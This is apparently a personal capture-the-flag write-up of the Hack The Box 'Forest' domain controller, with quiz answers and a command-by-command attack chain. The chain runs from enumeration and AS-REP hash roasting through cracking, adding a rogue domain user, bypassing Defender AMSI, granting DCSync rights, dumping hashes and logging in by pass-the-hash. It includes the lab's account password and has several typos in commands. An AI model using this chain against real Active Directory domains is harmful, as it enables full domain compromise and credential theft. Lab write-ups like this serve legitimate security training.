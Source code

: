 ## Table of Contents

    - [MEthodology](#MEthodology)
    - [Foothold](#Foothold)
    - [Prive esc](#Prive\esc)

localip = 10.10.16.13
ip = 10.10.10.161
**Which domain is this machine a DC?**
htb.local
**Which of the following services allows for anonymous authentication and can provide us with valuable information about the machine? FTP, LDAP, SMB, WinRM**
LDAP

**Which user has Kerberos Pre-Authentication disabled?**



User:bf7a8463fc9f3a02856bb17539265ae4


The user svc-alfresco is a member of a group that allows them to add themself to the "Exchange Windows Permissions" group. Which group is that?
Account Operators


### MEthodology

Enumeration ->
`ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.161 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) nmap -sC -sV -p$ports 10.10.10.161`



check LDAP service for anon login 
`ldapsearch -h MACHINE_IP -p 389 -x -b "dc=htb,dc=local"`


The windapsearch tool can be used to query the domain further. The -U flag is used to enumerate all users, i.e. objects with objectCategory set to user . We find some username and mailbox accounts, which means that exchange is installed in the domain. Let's enumerate all other objects in the domain using the objectClass=* filter.

python winadpsearch.py -d hb.local --dc-ip 10.10.10.161 -U
The -U flag is used to enumerate all users, i.e. objects with objectCategory set to user . We find some username and mailbox accounts, which means that exchange is installed in the domain. Let's enumerate all other objects in the domain using the objectClass=* filter.

python winadpsearch.py -d hb.local --dc-ip 10.10.10.161 --custom "objectClass=\*"

### Foothold
GetNPUsers.py script from impacket can be used to request a TGT ticket and dump the hash
`GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass`





copy hash to a file
`john hash.txt --fork=4 -w=/path/to/wordlist.txt`

### Prive esc

bloodhound-python 
-d htb.local -usvc-alfresco -p s3rvice

**Add a new users jon and add him to Exchange Windows Permissions and Remote management users so that he can change permissions and perform DCSync attack**
```
net user john abc123! /add /domain

net group "Exchange Windows Permisssions" john /add

net localgroup "Remote Management Users" john /add


```

Download PowerView and import >

```
Bypass-4MSI **bypass defender
```

```
add Add-ObjectACL with john credentials to give him DCSynce rights
$pass = convertto-securestring 'abc123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\john', $pass)
Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```
**Run secretsdump.py to dump the system hashes then login with a PTH using psexec.py with admin acc/hash**
`secretsdump.py htb/john@10.10.10.161`

>
>`psexec.py administrator@10.10.10.161 -hashes <paste hash here>`


